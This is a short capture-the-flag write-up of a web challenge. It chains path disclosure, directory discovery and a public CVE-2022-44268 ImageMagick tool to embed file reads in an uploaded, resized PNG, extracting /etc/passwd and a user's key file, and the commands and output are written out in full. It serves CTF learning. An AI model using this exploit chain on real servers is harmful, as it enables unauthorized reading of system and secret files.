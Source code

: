 # How to:

# STEP 1: path disclosure

```
http://[WEBSITE]/index.php?id[]=1
/var/www/html/sharing/
```

# STEP 2: dirbusting

```
/tools/resize.php
```

# STEP 3: reading /etc/passwd

Download the tool:\
https://github.com/kljunowsky/CVE-2022-44268

Poison a png image:
```sh
python3 -BO CVE-2022-44268.py --image ./winhome/Downloads/bg.jpg --output ./winhome/Downloads/etc_passwd.png --file-to-read /etc/passwd
```

Upload it via the website uploader `[WEBSITE]/index.php?id=2`

Resize it:
```
http://[WEBSITE]/tools/resize.php?path=/var/www/html/sharing/uploads/etc_passwd.png&width=1&height=1


<img src='../resized/resized_image_[RANDOMID].png' alt='Resized Image'>
```

Decrypt it:
```sh
python3 -BO CVE-2022-44268.py --url http://[WEBSITE]/resized/resized_image_[RANDOMID].png

root:x:0:0:root:/root:/bin/bash
[...]
jacobb:x:1000:1000::/home/jacobb:/bin/sh
```
# STEP 4: Retrieving the key
Poison a png image:
```sh
python3 -BO CVE-2022-44268.py --image ./winhome/Downloads/bg.jpg --output ./winhome/Downloads/jacobb.png --file-to-read /home/jacobb/key
```

Upload it, resize it and...
```sh
python3 -BO CVE-2022-44268.py --url http://[WEBSITE]/resized/resized_image_[RANDOMID].png

NTRLGC{sh4r1ng_0d4yz_t0_fr13ndz_is_4lw4ys_FUN}
```